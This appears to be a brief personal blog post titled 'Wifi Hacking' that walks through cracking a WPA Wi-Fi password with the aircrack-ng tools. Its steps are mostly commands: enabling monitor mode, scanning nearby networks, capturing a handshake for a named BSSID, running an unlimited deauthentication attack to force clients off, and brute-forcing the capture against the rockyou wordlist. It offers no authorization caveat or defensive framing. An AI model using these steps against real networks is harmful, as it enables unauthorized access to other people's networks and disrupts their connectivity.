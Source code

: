 ```yaml
---
layout: post
title: Wifi Hacking
---
```


*Alfa-card is mandatory to search/scan for available Networks*
Steps:
**Connect alfa-card and check the Interfaces**
  Run - ipconfig/iwconfig - after this you will get the wlan0 interface

**Start Monitor Mode**
	Run - airmon-ng start wlan0

**Verify its Monitor Mode**
  Run - airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**
  Run - airodump-ng wlan0mon
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.

	Run - airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

	aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

	-w to save a file 

	Now Stop the Monitormode and brute force the captured handshake

	Run - airmon-ng stop wlan0mon

	Bruteforce the saved file with the wordlists to crack the password

	aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
